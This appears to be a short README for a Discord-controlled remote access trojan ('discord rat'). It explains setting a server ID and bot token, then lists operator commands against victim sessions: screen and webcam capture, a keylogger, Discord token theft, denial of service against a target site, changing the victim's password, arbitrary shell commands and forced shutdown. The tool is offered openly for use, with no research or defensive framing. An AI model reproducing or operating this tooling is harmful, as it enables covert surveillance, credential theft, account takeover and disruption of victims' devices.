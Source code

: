 with discord rat, you can send and receive data without establishing a IP connection between you and the target device
change the server ID and token.
you can manage many sessions with the ID given to users
```
serverid = ""  #Your Server ID
token = ""  #Your Bot Token
```

example
```
wq.sessions
wq.get_screen LhngKv-s30OXbri/I2aD"
wq.get_webcam LhngKv-s30OXbri/I2aD
wq.altf4 LhngKv-s30OXbri/I2aD"
wq.click LhngKv-s30OXbri/I2aD 10 10"
wq.write LhngKv-s30OXbri/I2aD hello world"
wq.open_link LhngKv-s30OXbri/I2aD https://github.com"
wq.dos LhngKv-s30OXbri/I2aD https://targetsite.com
wq.get_token LhngKv-s30OXbri/I2aD
wq.keylogger LhngKv-s30OXbri/I2aD
wq.search LhngKv-s30OXbri/I2aD wqlsz github
wq.press LhngKv-s30OXbri/I2aD win
wq.command LhngKv-s30OXbri/I2aD netstat -n
wq.restart LhngKv-s30OXbri/I2aD
wq.shutdown LhngKv-s30OXbri/I2aD
wq.shutdownpc LhngKv-s30OXbri/I2aD
wq.notepad LhngKv-s30OXbri/I2aD
wq.change_password LhngKv-s30OXbri/I2aD wqlsz wq1234
```




---commands----

altf4           
change_password 
clear      
click           
command         
delete_channel  
dos             
get_screen      
get_token       
get_webcam      
help            
keylogger       
notepad         
open_link       
press           
restart         
search          
sessions        
shell           
shutdown        
shutdownnpc     
write
